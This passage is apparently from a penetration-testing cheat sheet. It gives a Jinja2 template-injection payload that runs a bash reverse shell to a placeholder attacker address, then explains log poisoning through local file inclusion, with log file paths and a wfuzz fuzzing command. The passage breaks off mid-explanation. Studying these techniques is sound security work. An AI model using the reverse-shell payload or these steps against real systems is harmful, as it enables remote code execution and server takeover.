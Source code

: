 ```
{%25+for+x+in+().__class__.__base__.__subclasses__()+%25}
{%25+if+%22warning%22+in+x.__name__+%25}
{{x()._module.__builtins__['__import__']('os').popen(request.args.input).read()}}
{%25endif%25}
{%25endfor%25}&input=bash+-c+'bash+-i+>&/dev/tcp/YOUR_IP/PORT+0>&1'
```

### Log Poisoning

**Log poisoning** is a **server-side attack** technique where an attacker **injects malicious payloads** into server **log files** (**access.log**, **error.log**, **auth.log**, ...).
If these logs are later included or rendered by a vulnerable application (commonly via Local File Inclusion - LFI), the malicious code can be executed on the server, leading to Remote Code Execution (RCE).

**Requirements for Exploitation:**

- A way to put **malicious text** into a **server log** (for example, by sending it in the User-Agent, Referer, or part of the URL).

- A vulnerability, such as **Local File Inclusion** (**LFI**), that lets you open and view the **log file** through the web application.

- The **log file** must be interpreted as code by the server when opened (for example, if **PHP** code in the **.log** file is executed).

**Common Log Locations**

Linux (Apache, Nginx, SSH):

```
/var/log/apache2/access.log (Can be poisoned via User-Agent or X-Forwarded-For)
/var/log/apache2/error.log
/var/log/nginx/access.log (Often poisoned via URL path)
/var/log/auth.log (Username injection if LFI is possible)
```

Windows (IIS, Event Logs):

```
C:\inetpub\logs\LogFiles
C:\Windows\System32\winevt\Logs
```

**How the Attack Works**

<h4>1. Identify accessible log files</h4>

Use LFI fuzzing to find log file paths:

```
wfuzz -c -z file,/usr/share/wordlists/seclists/Fuzzing/LFI/LFI-gracefulsecurity-linux.txt \
-u 'http://example.com/page.php?file=FUZZ' --hl=1 | grep log
```

<h4>2. Inject malicious code into the log</h4>

For example, send PHP code as part of a request that will be written to a log file.
